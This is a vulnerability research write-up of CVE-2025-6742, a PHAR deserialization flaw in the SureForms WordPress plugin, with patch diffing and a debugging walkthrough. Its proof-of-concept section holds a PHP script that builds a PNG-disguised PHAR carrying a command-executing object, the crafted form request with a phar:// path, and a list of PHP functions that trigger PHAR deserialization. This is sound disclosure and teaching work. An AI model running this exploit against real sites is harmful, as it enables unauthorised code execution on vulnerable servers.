






# CVE-2025-6742 Analysis & POC


<!--more-->

## CVE & Basic Info
The **SureForms – Drag and Drop Form Builder for WordPress** plugin for WordPress contains a **PHP Object Injection** vulnerability in all versions up to and including 1.7.3 due to the usage of **file_exists()** in the **delete_entry_files()** function without restricting the provided path. This allows an unauthenticated attacker to inject a **PHP Object**. No **POP chain** is known in the vulnerable software, meaning the vulnerability has no impact unless another plugin or theme installed on the site contains a **POP chain**. If such a POP chain exists via additional plugins or themes installed on the target system, it may allow the attacker to perform actions such as arbitrary file deletion, sensitive data exposure, or code execution depending on the POP chain present.

* **CVE ID**: [CVE-2025-6742](https://www.cve.org/CVERecord?id=CVE-2025-6742)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 1.7.3
* **Patched Versions**: 1.7.4
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress SureForm Plugin](https://wordpress.org/plugins/sureforms/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **SureForm**:  
    * `1.7.3` – **vulnerable**  
    * `1.7.4` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diffing tool.

## Cause
In version `1.7.3`, the function `delete_entry_files()` receives a `$file_url`, then decodes the URL and converts it into a path using `$file_path = Helper::convert_fileurl_to_filepath( urldecode( $file_url ) );`

It then directly calls:

```php {title="entries-list-table.php v1.7.3"}
// Delete the file if it exists.
if ( file_exists( $file_path ) ) {
    unlink( $file_path );
}
```

This code checks for file existence using `file_exists()` and uses `unlink()` to delete it if present.



In the patched version, the code is replaced with:

```php {title="entries-list-table.php v1.7.4"}
// Delete the file from the uploads directory.
Helper::delete_upload_file_from_subdir( $file_url, 'sureforms/' );
```

```php {title="helper.php v1.7.4"}
public static function delete_upload_file_from_subdir( $file_url, $subdir = 'sureforms/' ) {
    // Decode the file URL.
    $file_url = urldecode( $file_url );

    // Check if the file URL is empty.
    if ( empty( $file_url ) || ! is_string( $file_url ) ) {
        return false;
    }

    // Normalize and sanitize the subdirectory.
    $subdir = trailingslashit( sanitize_text_field( $subdir ) );

    // Get the base upload directory.
    $upload_dir       = wp_upload_dir();
    $base_upload_path = trailingslashit( $upload_dir['basedir'] ) . $subdir;

    // Extract only the filename from URL.
    $filename = basename( $file_url );

    // Construct the full file path.
    $file_path = $base_upload_path . $filename;

    // Resolve real paths.
    $real_file_path = realpath( $file_path );
    $real_base_path = realpath( $base_upload_path );

    // Security check: ensure file is inside the target subdir.
    if ( ! $real_file_path || ! $real_base_path || strpos( $real_file_path, $real_base_path ) !== 0 ) {
        return false;
    }

    // Delete if file exists.
    if ( file_exists( $real_file_path ) ) {
        return unlink( $real_file_path );
    }

    return false;
}
```

The new function `delete_upload_file_from_subdir()` performs multiple security checks, only allowing deletion of files located in the `uploads/sureforms/` directory with valid filenames.

> [!INFO] According to the description, this CVE is related to a PHP Object Injection vulnerability where the sink is the `file_exists()` function, which only occurs in the case of **PHAR Deserialization**, meaning `$file_path` must be in the format `phar://phar_file`.

## Analysis
```php {title="entries-list-table.php v1.7.3" data-open=true hl_lines=[6,22]}
public static function delete_entry_files( $entry_id ) {
    if ( ! $entry_id ) {
        return;
    }
    // Get the entry data to get the file URLs.
    $form_data = Entries::get_form_data( $entry_id );
    if ( empty( $form_data ) ) {
        return;
    }
    foreach ( $form_data as $field_name => $value ) {
        // Continue to the next iteration if the field name does not contain 'srfm-upload' and value is not an array.
        if ( false === strpos( $field_name, 'srfm-upload' ) && ! is_array( $value ) ) {
            continue;
        }
        foreach ( $value as $file_url ) {
            // If the file URL is empty, skip to the next iteration.
            if ( empty( $file_url ) ) {
                continue;
            }
            $file_path = Helper::convert_fileurl_to_filepath( urldecode( $file_url ) );
            // Delete the file if it exists.
            if ( file_exists( $file_path ) ) {
                unlink( $file_path );
            }
        }
    }
    ...
}
```

After reviewing the logic in `delete_entry_files()`, I noticed keywords like `entries` appear frequently. There is a coincidence here:



It seems correct, but as you can see the message `"No records found"`, there is no data to display. So how do we add data?

```php
$form_data = Entries::get_form_data( $entry_id );
```

Looking at the function name `get_form_data`, it is highly likely that data is retrieved from client form submissions since this vulnerability is published as **Unauthenticated**.

Try creating a form using the plugin functionality:



Create a post and embed the form shortcode:


Access the created form and submit arbitrary data:

```http {title="Request" hl_lines=[37,39]}
POST /wp-json/sureforms/v1/submit-form?_locale=user HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.7,vi;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/2025/11/19/form-testing/
X-WP-Nonce: 2c506366a5
Content-Type: multipart/form-data; boundary=----geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Length: 730
Origin: http://localhost
Connection: keep-alive
Cookie: wp-settings-time-3=1763365761
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue
Priority: u=0

------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="sureforms_form_submit"

d3b9273370
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="_wp_http_referer"

/2025/11/19/form-testing/
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="form-id"

123
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-sender-email-field"


------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field"

testing
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221--
```



The response returns several fields such as **status** and **submission id**.

The name `delete_entry_files` refers to deleting an entry, so let’s set a breakpoint at the start of the function and try deleting an entry.


Continue debugging


We see `$value` is attacker-controlled. `$value` needs to be an array so it won’t be skipped by `continue` and so `file_exists()` can be invoked.

To make `$value` an array, submit a field whose name ends with `[]`:

```
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field[]"

testing
```



## Flow

After debugging, we can see the execution flow to the sink:


graph TD
A["Client submit form"] 
    --> B["Admin delete entry"]
B --> C["WordPress hook: admin_init"]
C --> D["handle_entry_actions"]
D --> E["Entries_List_Table::handle_entry_status()"]
E -- $action=delete --> F["Entries_List_Table::delete_entry_files()"]
F --> G{"$value is array"}
G -- Yes --> H["call file_exists( $file_path )"] --> L["RCE: PHAR Deserialization"]
G -- No --> K["continue"]


## Proof of Concept (PoC)
1. Use an admin account to create a form and insert it into a post
2. Create a PHP file `create_phar.php` with the following code:

```php {data-open=true}
<?php
// Define class Evil with a property and __wakeup function
class Evil
{
    // Property command contains the system command to be executed
    public $command = "ls /";

    // __wakeup() is triggered when this object is unserialized
    public function __wakeup(): void
    {
        // When unserialized, execute the command in $command and terminate program
        die(system($this->command));
    }
}

// Create a new PHAR file named poc.phar
$phar = new Phar('poc.phar');

// Begin writing PHAR contents
$phar->startBuffering();

// Add a fake entry named test.png with content "text"
$phar->addFromString('test.png', 'text');

// Set PHAR stub beginning with PNG magic bytes to disguise it as an image,
// then __HALT_COMPILER() to end execution
$phar->setStub("\x89PNG\r\n\x1a\n<?php __HALT_COMPILER(); ?>");

// Write metadata containing an Evil object
$phar->setMetadata(new Evil());

// Finish writing and flush to file
$phar->stopBuffering();
```

3. Create the PHAR file `poc.phar` by running:  
   `php --define phar.readonly=0 create_phar.php`

> [!INFO]
> `phar.readonly` is a directive in PHP (Phar extension configuration). By default its value is 1 (readonly) and PHAR files cannot be created. To generate PHAR files, disable readonly using `phar.readonly=0` or configure it in `php.ini`.

4. Rename `poc.phar` to `poc.png` since file uploads typically only accept images rather than `.phar`
5. Upload `poc.jpg` using the Media Editor. Take note of its upload path in `wp-content/uploads`.
6. Resend the form submission request:

```http {title="Request" hl_lines=[37,39]}
POST /wp-json/sureforms/v1/submit-form?_locale=user HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: application/json, */*;q=0.1
Accept-Language: en-US,en;q=0.7,vi;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/2025/11/19/form-testing/
X-WP-Nonce: 2c506366a5
Content-Type: multipart/form-data; boundary=----geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Length: 775
Origin: http://localhost
Connection: keep-alive
Cookie: wp-settings-time-3=1763365761
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue
Priority: u=0

------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="sureforms_form_submit"

d3b9273370
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="_wp_http_referer"

/2025/11/19/form-testing/
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="form-id"

123
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-sender-email-field"


------geckoformboundary951e0587d59c442ebcc7cae9dcac2221
Content-Disposition: form-data; name="srfm-input-7469d29b-lbl-VGV4dCBGaWVsZA-text-field[]"

phar://../../../wp-content/uploads/2025/11/poc.png
------geckoformboundary951e0587d59c442ebcc7cae9dcac2221--
```
7. When the admin deletes the entry



> [!WARNING]
> After testing multiple PHP versions, I found that: The function `file_exists()` only works for PHAR exploitation on versions `<=7.4`

**Some other functions usable for PHAR Deserialization exploitation:**
```
copy                file_exists         file_get_contents   file_put_contents   
file                fileatime           filectime           filegroup           
fileinode           filemtime           fileowner           fileperms           
filesize            filetype            fopen               is_dir              
is_executable       is_file             is_link             is_readable         
is_writable         lstat               mkdir               parse_ini_file      
readfile            rename              rmdir               stat                
touch               unlink  
```

# Conclusion

The **PHP Object Injection vulnerability in SureForm <= 1.7.3** originates from using `file_exists()` and `unlink()` directly on a user-controlled path without scope constraints. Although the plugin does not contain a POP chain by default, if additional plugins or themes installed in the environment contain a POP chain, attackers may escalate exploitation to deleting files, reading sensitive data, or even executing arbitrary code (RCE). The 1.7.4 patch handles the issue by normalizing and restricting valid file paths into the upload directory, eliminating the exploitation vector.

# Key Takeaways

* The vulnerability originates from interacting with filesystem paths derived directly from uncontrolled user input.
* Using only `file_exists()` can lead to PHAR deserialization on PHP versions ≤7.4.
* Although the plugin has no built-in POP chain, typical WordPress environments host many plugins → high likelihood of chainability.
* The patch adds path normalization, upload directory restrictions, and avoids directly interacting with filesystem paths.
* File operation functions always pose exploitation risk if user inputs are not strongly validated.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress SureForm Plugin <= 1.7.3 is vulnerable to a high priority PHP Object Injection](https://patchstack.com/database/wordpress/plugin/sureforms/vulnerability/wordpress-sureforms-plugin-1-7-3-unauthenticated-php-object-injection-phar-vulnerability)

---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-19-cve-2025-6742/  

